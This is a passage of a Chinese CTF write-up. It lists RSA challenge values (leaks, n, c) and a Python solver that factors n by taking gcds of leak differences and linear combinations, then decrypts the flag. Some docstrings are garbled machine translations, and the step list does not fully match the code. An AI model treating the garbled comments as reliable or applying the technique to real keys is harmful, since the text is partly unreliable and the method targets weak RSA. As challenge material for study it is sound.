49791359597993722179708780750059193296943507935674080503958512756327991225675529668360444163776830241389936279618527242349090577860616850098554838033543122340668531686768328885162332141509605337794322678501593065322247749284018901534852145404307350445968665375559735216312516771700935437023385668673977155410, 55090464289345568441385572264621098794136503052535289846857827499752460229406969839411101150487137496495870760861004258332285193524584216733976390732749876536735014221115068489465326172813558424472338868103444632673194307273409873280895820215017609576758975130521200194360149954462627737451510226800372581757, 49425740628556214508152347021292646968816966208590635179002034355347134179207561793897965457276447328846238268026400285735343483349480319277886628945132264296724218954280080581567179638727265257989165336899238108903807527134493999564119635462911686732924547591395849743458088639160748427333219099098405476735, 54204985189779001246863313707414911293747920450211130207935467942825690958455755610080304129951522723056226903235745312342738636354405338732494362700895659187930281054783030522903134637555445204552688504521317489633503440864787739659128689232821777433836037133827715284319917452318755078444578110901549529625, 31065023757721096504589567148872944621967527934578313880351090389434491764399176504192672900077015919774997143595105323186072057240136670169933433991558438646217277052311242348596051050624079153597896175015797629886168788867328429776941646210943695542781007257390068274970672662038216318146138678113222298618, 0, 33849960309945871087250532390536366898512987320745324167032153826575209524224517859956305664131950387751059243976285354248090715180600060233110303028538276331837895483532012192651659662360467298546145120168661212795862185679668983270243943603203830706938336965763922820879055260160937582730376119396470081571, 62540846955310708333195716775485183480292219149769179709338973291992987606041572752233230000680944071519319862393252054767801083208441070859790842606628984454776135409837881390148450271593954785476513119539197801316500507276539034956498919022922294855232267166803623368354352263808970737316292904417016133201, 52884351905243174177523433135193546435070039907992121279428677600875506879983631027598836674531929734130182465229267755265454503446128589036129054925800023922446718814549837970172106724494558698732484964344846951193127495137225138258178206981049447107641782035165129719562981351556102531768714850296476627660, 27229141114688907342568502101572539134818818213548673043973804515946809655655048600941797293154888303726282180826359002532170223078051518743800855810815773977937916696496684827080359559189516064159850387488091028430766672527197072735784144303088593593097823383097707246141261080914264606243176936042738122400, 41827124036800105727221390591476285523946800716699147254967177238130967732115373406908115105022275560670961767594852254967663608962148578008770415238062392244637149573400195658441932468938383807033528100953057671885982156771992446025667877626432910392939979919332635894040480503537011184535789113894878414703, 59370750097308317637531960516745226319824311274555764176568914523500095394956352061882104460616473974115091778525797592144976174826787021598527407055148237059333860983126040188162523655531442174012220482382171414576266567276414996737213521966810322359942468041002501227156998270317625592606355248924675900533, 32006611328937672433691242731086516442245064130539473137086134743298813897085378500113146146959831997166762597538147196422340787945712160734069826547920184256444817610218768020391799722303071567638304251555482903083711226005335183557614968261972591390256051270125688364156571589288578972654260156676282702117, 7249053845978869634431751108596087066594210759234670308750382512845114286738874109832199711741839483692145831644215604067890385468863162157941842349223522715503142070383595834092653286800413527712553310378602940456599767057525380890509614104251018885513293525535292177798008204303570162480415854794551778863, 42035243076233792441297433071025387405311342559016066094968348421071462174838341200258359168199375379890105591116008098078645143258542708405468593763965607925600519902930531800964855545214887663659869377459792395779050216440395021998744081648917941858531611025184259931608464943641698023307218356857489108562, 19867171834898453585973661714189269465503395717705103548206888706738514524183755674384211724845735061308902905602370155234554324838222703548736212464118401730008084292021111004046760592574977217026179720355030935124833943082958544328562974894357781859893468679645137798014294043962382281283245873720951668936, 28776225898383988818717128448171651228514615260592139632845428249692087156796646393858815833204041255497636112806223981583341006763425410320891939964895408373945734227359598114037530613179821941856013041899602894821588017637959262852690230921274712813242503445930113961951043669984575247831707937079359070626, 23466407165964987723658610719056583177097362442686825956316233272218325317306988117202822547822844151599720643163557292418392182852804928900817220284488566594130207671431357425470803880835197702642258939069617192868343418504826876238489888374464919202796439585326854425553064526414479075348708692909695236586, 57301101155330254014922156267989714129888230167008984458802859410136759354209337212915042579556338911803548630125311720721961014423048294943581600657573946388234013349910835925537524800022000623641303150805626299263965100908395635964414643131290795210365981433608277840218083575722349201670708467379229227167, 60453711016568355202106759350273027449705257346343412996725591685936153947364801765457388835397235792190855798265263749239469488477742286643672306703802678432497105916158177237150495457582542765464683214329673064756252783365934616839791892586555824091042192386032447060046298527968323617113493262102165395634, 22488515389826961976228391593380993092203946327802762248076937183660609940168064252772443612682884095655314328362573517186474356230252806125002122551358077001757691342239850094805596812560987333601929155109600003110296020629786528221836309853320736169720526503572052348110623813276217779510708020621514279474, 40656172124190738766133783585557791135203355757228482828411758606495674063627032974679978689067809738848897123403988433982498497055019428199585136156219825929538147149022423911259281339193170994653889251239332297654682574282107977960886949392209656184353254432344702376422972112402982544555997542814369649582, 63810173544003163406693881797240899364775537987442690481070791771844809364691349158786921219548265625300469062538461251773797356496386506200835580425180679147164620829794007522883986536140545352102694714721515147391134330474433871689715869726344540706592531603159243548878183102519269971019025312010559164037, 54122962997682568718942001933430465776235943300573515659921236232513360070614077545994288933123904815928041770356195708236454010283891546943565046241243039878495524837111685983169735694057888811302233916686772598308678128780970302247710285899793590039538050085779119168687549694198840971196447532461133301747, 49610147026000167838667621554415146088754225889056978717751586728288789525680384902113920539411937820601962615326583900550676745547753640180916456357479952098069191072444777331701724498952444317613530876607951761592130642878695189054210234097742029993986891210653243108712970476492479650949269747193259508972, 53024975959622748645837296026159960680410932933572357587111378920826944972330794236716576280253556419137056005587587422919181341364062544629967636765502429160846342333690327002991222926987485743605244555613824366647317002556362331474046548943018824075827518497077566370996859121612845221398681918287149044385, 60632547844589847332338929174918936949716444156070892644891205839492808634744553888763137591798957343661427898523004799962091073930124763351608565764705368589324016807424479771453372035181109011875962554030527436201804668075124906437074936852435319595246948845305925305042808732052277040568153341865915669014, 32235975670330463465677174154791439010710972894048978306906509021069785432887516936420809316031481741597061787785969144171237169147265819979118713073401004961316279476689014095778702180369291965977535024729523004117468371357212897841722574445166949751367732744378001792588181053172244958125930249193731063739, 45663006679832294889242455638776691011095510437728788091344463111618649840859501310158990711944403176719676730363598575621565443124233729434902993418805056912916509929214753179957623960372946896471573888480764273341384273112123803066825379534288012342623163793624996922869892084660962896438750855965362590921, 17801683505175633790425385475728131351777825598742171288460440127812999267107580071689686854612153983950088150328953319821450472677701031444727458496870954354119412404596369517572657346748904536159085407865410669098956638365911002521713703622358996358962012046201503974651003211112599765230417565207728131564, 7473908159937809851420319428742384549440351300235073685138032988767939791170344282482935148419913842783787945135308036192664405817734786319338480788486161161559685153189616943018798014454259479075896465457877857395788725613001697995995636778591828319332188427296907960581804376402468020371107366469570425231, 18901711622520141182093240051358505230155889277695858032600152523011932132742177552164522926703584452463883267814926442873607691613854965489546663673064616788231360103001617940622058356570882156796252908277524832253630035335433278281820110524530174776896139183579186772772444901634491178591197283526745102722, 11698240766671907074448801937117474908618788206875101341861509606762583057013390772282378240632917782526980384448788352768308504691151185214233482903193770703945721269674456078256445598507776966317127317841820824150475730056747025881201348196904722099491533091137619138485601024896242924367715644126670060326, 17350006544581272946601385798731824303870943478332175916685747444513249879454345329500732587243401761237132231427783686903660567391364694183411702275058014965054236728282846647281075460563831035571817507297741825704180734563619437124631863441075723651392498361910145922616801703742656426444551808612938244478, 13521397697212884594278997223604003826090017376721696958749353104065364101558197849218683544482817506330867132664159986008759491375498226580176442174472593831520565642585397818875459864031020786619203793586683887195884378362905879065396001870566283575778519135720202941854154895257601910075572543083424812788, 39745682847349617035403331062186730760818534806014376641966015313660104593866042003781443245001059902636261249421277773366077636415025247283923807263358088578194666296641242442232537085018954287336882667597486274153633428033562413446947503083218989447970920350471171372051376265570735100077123305976376696633, 30856904718287409790513524669323842740602986092261395040349919206493997321676208710842428836899916100555853320073949480075090522943742539773235255465655222965253906722780906206073127974347575296971554898509062905993100729198925853803865442188458664077189376151538444237402688221933529479374709435150611604759, 18769184796838633512868955806918764369678385350703945475397031395052099425900472365106499071975386664517917140833761869917281655918393701235138802988377791012358901788599752023868247825504574149329190359282082703463472816858350573554899237937583015896182937090943585000323603471376386531485480259546967411574]
n = 72892147794521202231810957740349230145914328651277461135318267627565459496514549911100788005099291480445958911189957578153735666202285248178703849229620830890854426625711438007037983519562462960631424275968855301772150945639320875802609523837376605935720987176722704169011153165575227502681927792008100713321
c = 66211383728927477961504129779286722500333144407641353569094774324819626334484893292508310790079597523635321435396137297858938273335388880392928578981932359774043846039086672011213750608230098196136340928454953616562876564819762680645015314932760973941422667606688007984842132206043802633618579290119560963165
'''
~~~

这是加密脚本

所有的加密过程都已经在注释中，现在看解密脚本即可

1. 导入必要的库。
2. 定义 leak、n、c 和 e
3. 遍历 leak 值，计算每个 leak 值与 n 的 gcd。如果 gcd 大于 1，则找到了 p
4. 如果未找到，则计算所有 leak 值对的差值，并计算差值与 n 的 gcd，以找到 p
5. 一旦找到 p，计算 q=n//p
6. 计算 RSA 私钥 d 使用 e 和 ϕ(n)=(p−1)(q−1)
7. 解密密文c得到明文m，并且转为字节读取flag

~~~python
from Crypto.Util.number import *
from itertools import *
from random import *
from math import gcd

leak = [25534798773678814313800627634413444821694794492336332925603677561590270769842677527949685105226534302706361134152764956341120158737838218481976879974590498520414025356807263350025644902555248484449083783487485225460225445569329762652069794808107298937049982711740824858344031578996784909438286879375215130931, 68998264628074329922697853027441728107386154355719209701809666478867260650513703298117492079805085450454821470857867509826480174156612256686453887862175910169687852504026440006586753843531008487309852414616651213703875559247953591212627171612559633242712791376383868388661424610315750599092247240156730831236, 49791359597993722179708780750059193296943507935674080503958512756327991225675529668360444163776830241389936279618527242349090577860616850098554838033543122340668531686768328885162332141509605337794322678501593065322247749284018901534852145404307350445968665375559735216312516771700935437023385668673977155410, 55090464289345568441385572264621098794136503052535289846857827499752460229406969839411101150487137496495870760861004258332285193524584216733976390732749876536735014221115068489465326172813558424472338868103444632673194307273409873280895820215017609576758975130521200194360149954462627737451510226800372581757, 49425740628556214508152347021292646968816966208590635179002034355347134179207561793897965457276447328846238268026400285735343483349480319277886628945132264296724218954280080581567179638727265257989165336899238108903807527134493999564119635462911686732924547591395849743458088639160748427333219099098405476735, 54204985189779001246863313707414911293747920450211130207935467942825690958455755610080304129951522723056226903235745312342738636354405338732494362700895659187930281054783030522903134637555445204552688504521317489633503440864787739659128689232821777433836037133827715284319917452318755078444578110901549529625, 31065023757721096504589567148872944621967527934578313880351090389434491764399176504192672900077015919774997143595105323186072057240136670169933433991558438646217277052311242348596051050624079153597896175015797629886168788867328429776941646210943695542781007257390068274970672662038216318146138678113222298618, 0, 33849960309945871087250532390536366898512987320745324167032153826575209524224517859956305664131950387751059243976285354248090715180600060233110303028538276331837895483532012192651659662360467298546145120168661212795862185679668983270243943603203830706938336965763922820879055260160937582730376119396470081571, 62540846955310708333195716775485183480292219149769179709338973291992987606041572752233230000680944071519319862393252054767801083208441070859790842606628984454776135409837881390148450271593954785476513119539197801316500507276539034956498919022922294855232267166803623368354352263808970737316292904417016133201, 52884351905243174177523433135193546435070039907992121279428677600875506879983631027598836674531929734130182465229267755265454503446128589036129054925800023922446718814549837970172106724494558698732484964344846951193127495137225138258178206981049447107641782035165129719562981351556102531768714850296476627660, 27229141114688907342568502101572539134818818213548673043973804515946809655655048600941797293154888303726282180826359002532170223078051518743800855810815773977937916696496684827080359559189516064159850387488091028430766672527197072735784144303088593593097823383097707246141261080914264606243176936042738122400, 41827124036800105727221390591476285523946800716699147254967177238130967732115373406908115105022275560670961767594852254967663608962148578008770415238062392244637149573400195658441932468938383807033528100953057671885982156771992446025667877626432910392939979919332635894040480503537011184535789113894878414703, 59370750097308317637531960516745226319824311274555764176568914523500095394956352061882104460616473974115091778525797592144976174826787021598527407055148237059333860983126040188162523655531442174012220482382171414576266567276414996737213521966810322359942468041002501227156998270317625592606355248924675900533, 32006611328937672433691242731086516442245064130539473137086134743298813897085378500113146146959831997166762597538147196422340787945712160734069826547920184256444817610218768020391799722303071567638304251555482903083711226005335183557614968261972591390256051270125688364156571589288578972654260156676282702117, 7249053845978869634431751108596087066594210759234670308750382512845114286738874109832199711741839483692145831644215604067890385468863162157941842349223522715503142070383595834092653286800413527712553310378602940456599767057525380890509614104251018885513293525535292177798008204303570162480415854794551778863, 42035243076233792441297433071025387405311342559016066094968348421071462174838341200258359168199375379890105591116008098078645143258542708405468593763965607925600519902930531800964855545214887663659869377459792395779050216440395021998744081648917941858531611025184259931608464943641698023307218356857489108562, 19867171834898453585973661714189269465503395717705103548206888706738514524183755674384211724845735061308902905602370155234554324838222703548736212464118401730008084292021111004046760592574977217026179720355030935124833943082958544328562974894357781859893468679645137798014294043962382281283245873720951668936, 28776225898383988818717128448171651228514615260592139632845428249692087156796646393858815833204041255497636112806223981583341006763425410320891939964895408373945734227359598114037530613179821941856013041899602894821588017637959262852690230921274712813242503445930113961951043669984575247831707937079359070626, 23466407165964987723658610719056583177097362442686825956316233272218325317306988117202822547822844151599720643163557292418392182852804928900817220284488566594130207671431357425470803880835197702642258939069617192868343418504826876238489888374464919202796439585326854425553064526414479075348708692909695236586, 57301101155330254014922156267989714129888230167008984458802859410136759354209337212915042579556338911803548630125311720721961014423048294943581600657573946388234013349910835925537524800022000623641303150805626299263965100908395635964414643131290795210365981433608277840218083575722349201670708467379229227167, 60453711016568355202106759350273027449705257346343412996725591685936153947364801765457388835397235792190855798265263749239469488477742286643672306703802678432497105916158177237150495457582542765464683214329673064756252783365934616839791892586555824091042192386032447060046298527968323617113493262102165395634, 22488515389826961976228391593380993092203946327802762248076937183660609940168064252772443612682884095655314328362573517186474356230252806125002122551358077001757691342239850094805596812560987333601929155109600003110296020629786528221836309853320736169720526503572052348110623813276217779510708020621514279474, 40656172124190738766133783585557791135203355757228482828411758606495674063627032974679978689067809738848897123403988433982498497055019428199585136156219825929538147149022423911259281339193170994653889251239332297654682574282107977960886949392209656184353254432344702376422972112402982544555997542814369649582, 63810173544003163406693881797240899364775537987442690481070791771844809364691349158786921219548265625300469062538461251773797356496386506200835580425180679147164620829794007522883986536140545352102694714721515147391134330474433871689715869726344540706592531603159243548878183102519269971019025312010559164037, 54122962997682568718942001933430465776235943300573515659921236232513360070614077545994288933123904815928041770356195708236454010283891546943565046241243039878495524837111685983169735694057888811302233916686772598308678128780970302247710285899793590039538050085779119168687549694198840971196447532461133301747, 49610147026000167838667621554415146088754225889056978717751586728288789525680384902113920539411937820601962615326583900550676745547753640180916456357479952098069191072444777331701724498952444317613530876607951761592130642878695189054210234097742029993986891210653243108712970476492479650949269747193259508972, 53024975959622748645837296026159960680410932933572357587111378920826944972330794236716576280253556419137056005587587422919181341364062544629967636765502429160846342333690327002991222926987485743605244555613824366647317002556362331474046548943018824075827518497077566370996859121612845221398681918287149044385, 60632547844589847332338929174918936949716444156070892644891205839492808634744553888763137591798957343661427898523004799962091073930124763351608565764705368589324016807424479771453372035181109011875962554030527436201804668075124906437074936852435319595246948845305925305042808732052277040568153341865915669014, 32235975670330463465677174154791439010710972894048978306906509021069785432887516936420809316031481741597061787785969144171237169147265819979118713073401004961316279476689014095778702180369291965977535024729523004117468371357212897841722574445166949751367732744378001792588181053172244958125930249193731063739, 45663006679832294889242455638776691011095510437728788091344463111618649840859501310158990711944403176719676730363598575621565443124233729434902993418805056912916509929214753179957623960372946896471573888480764273341384273112123803066825379534288012342623163793624996922869892084660962896438750855965362590921, 17801683505175633790425385475728131351777825598742171288460440127812999267107580071689686854612153983950088150328953319821450472677701031444727458496870954354119412404596369517572657346748904536159085407865410669098956638365911002521713703622358996358962012046201503974651003211112599765230417565207728131564, 7473908159937809851420319428742384549440351300235073685138032988767939791170344282482935148419913842783787945135308036192664405817734786319338480788486161161559685153189616943018798014454259479075896465457877857395788725613001697995995636778591828319332188427296907960581804376402468020371107366469570425231, 18901711622520141182093240051358505230155889277695858032600152523011932132742177552164522926703584452463883267814926442873607691613854965489546663673064616788231360103001617940622058356570882156796252908277524832253630035335433278281820110524530174776896139183579186772772444901634491178591197283526745102722, 11698240766671907074448801937117474908618788206875101341861509606762583057013390772282378240632917782526980384448788352768308504691151185214233482903193770703945721269674456078256445598507776966317127317841820824150475730056747025881201348196904722099491533091137619138485601024896242924367715644126670060326, 17350006544581272946601385798731824303870943478332175916685747444513249879454345329500732587243401761237132231427783686903660567391364694183411702275058014965054236728282846647281075460563831035571817507297741825704180734563619437124631863441075723651392498361910145922616801703742656426444551808612938244478, 13521397697212884594278997223604003826090017376721696958749353104065364101558197849218683544482817506330867132664159986008759491375498226580176442174472593831520565642585397818875459864031020786619203793586683887195884378362905879065396001870566283575778519135720202941854154895257601910075572543083424812788, 39745682847349617035403331062186730760818534806014376641966015313660104593866042003781443245001059902636261249421277773366077636415025247283923807263358088578194666296641242442232537085018954287336882667597486274153633428033562413446947503083218989447970920350471171372051376265570735100077123305976376696633, 30856904718287409790513524669323842740602986092261395040349919206493997321676208710842428836899916100555853320073949480075090522943742539773235255465655222965253906722780906206073127974347575296971554898509062905993100729198925853803865442188458664077189376151538444237402688221933529479374709435150611604759, 18769184796838633512868955806918764369678385350703945475397031395052099425900472365106499071975386664517917140833761869917281655918393701235138802988377791012358901788599752023868247825504574149329190359282082703463472816858350573554899237937583015896182937090943585000323603471376386531485480259546967411574]
n = 72892147794521202231810957740349230145914328651277461135318267627565459496514549911100788005099291480445958911189957578153735666202285248178703849229620830890854426625711438007037983519562462960631424275968855301772150945639320875802609523837376605935720987176722704169011153165575227502681927792008100713321
c = 66211383728927477961504129779286722500333144407641353569094774324819626334484893292508310790079597523635321435396137297858938273335388880392928578981932359774043846039086672011213750608230098196136340928454953616562876564819762680645015314932760973941422667606688007984842132206043802633618579290119560963165

e = 0x10001

def try_pairwise_gcd(leaks, N):
    """尝试gcds的成对差异泄漏[i]泄漏[j]。返回非平凡因子或None。"""
    for i, j in combinations(range(len(leaks)), 2):
        d = leaks[i] - leaks[j]
        g = gcd(N, d)
        if 1 < g < N:
            return {"p": g, "method": "pairwise", "idxs": (i,j), "g": g}
    return None

def try_linear_combinations(leaks, N, k=3, coef_min=-2, coef_max=2, max_checks=10_000_000):
    """
    尝试k个泄漏值与范围[coef]内的小整数系数的线性组合_分钟,系数_max)。当找到时返回带有因子信息的字典，否则返回None。
    """
    checks = 0
    idx_combs = list(combinations(range(len(leaks)), k))
    for idxs in idx_combs:
        # iterate coefficient tuples (skip all-zero)
        for coeffs in product(range(coef_min, coef_max+1), repeat=k):
            if all(c == 0 for c in coeffs):
                continue
            checks += 1
            if checks % 500000 == 0:
                print(f"Checked {checks} combinations so far (k={k})...")
            if checks > max_checks:
                return None
            val = sum(coeffs[i] * leaks[idxs[i]] for i in range(k))
            g = gcd(N, val)
            if 1 < g < N:
                return {"p": g, "method": "linear_comb", "idxs": idxs, "coeffs": coeffs, "g": g, "checked": checks}
    return None

def factor_and_decrypt(p, N, c, e=65537):
    """给定因子p (N)，因子N，计算私有指数并解密c。"""
    if N % p != 0:
        raise ValueError("Provided p does not divide N")
    q = N // p
    phi = (p-1)*(q-1)
    d = inverse(e, phi)
    m = pow(c, d, N)
    try:
        flag = long_to_bytes(m)
    except Exception:
        flag = None
    return {"p": p, "q": q, "d": d, "m": m, "flag_bytes": flag}

# Main attempt
print("Trying pairwise gcd of differences...")
res = try_pairwise_gcd(leak, n)
if res:
    print("Found factor by pairwise gcd:", res)
else:
    print("No factor found by simple pairwise gcd. Proceeding to small linear combinations...")

# Try k=2..4 with coefficient range -2..2 (adjust if needed)
found = None
for k in (2,3,4):
    print(f"尝试k={k}的线性组合，系数在[-2,2]…")
    found = try_linear_combinations(leak, n, k=k, coef_min=-2, coef_max=2, max_checks=5_000_000)
    if found:
        print("Found candidate:", found)
        break
    else:
        print(f"No factor found for k={k} in current coefficient range.")

if not found and res:
    found = res

if not found:
    print("Attack unsuccessful with current parameters. Try increasing coef range or k, or reduce max_checks.")
else:
    p = found["g"]
    print("Using p =", p)
    out = factor_and_decrypt(p, n, c, e=e)
    print("p (decimal):", out["p"])
    print("q (decimal):", out["q"])
    print("Private exponent d (decimal):", out["d"])
    print("Recovered m (decimal):", out["m"])
    if out["flag_bytes"] is not None:
        print("Recovered flag (bytes):", out["flag_bytes"])
        try:
            print("Recovered flag (utf-8):", out["flag_bytes"].decode())
        except Exception:
            print("Flag bytes could not be decoded as utf-8; raw repr:", repr(out["flag_bytes"]))

~~~

